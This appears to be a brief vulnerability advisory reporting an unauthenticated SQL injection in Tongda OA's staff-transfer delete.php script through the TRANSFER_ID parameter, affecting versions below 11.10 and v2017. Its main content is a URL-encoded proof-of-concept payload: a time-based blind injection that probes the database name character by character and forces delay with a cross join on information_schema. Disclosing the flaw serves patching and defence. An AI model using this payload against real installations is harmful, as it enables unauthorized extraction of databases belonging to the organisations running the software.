 Unauthorized SQL injection vulnerability exists in Tongda OA

version:Versions below 11.10 and version v2017

Route: general/hr/manage/staff_transfer/delete.php

There is an injected parameter: $TRANSFER_ID

The code here is very concise. When $TRANSFER_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![图片1](https://github.com/YaGaoT/cve/assets/97662585/7d9778f2-63ee-4668-a098-0b03f7101fe4)

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![图片2](https://github.com/YaGaoT/cve/assets/97662585/0d582036-54e6-4995-ba71-48d56a38477d)
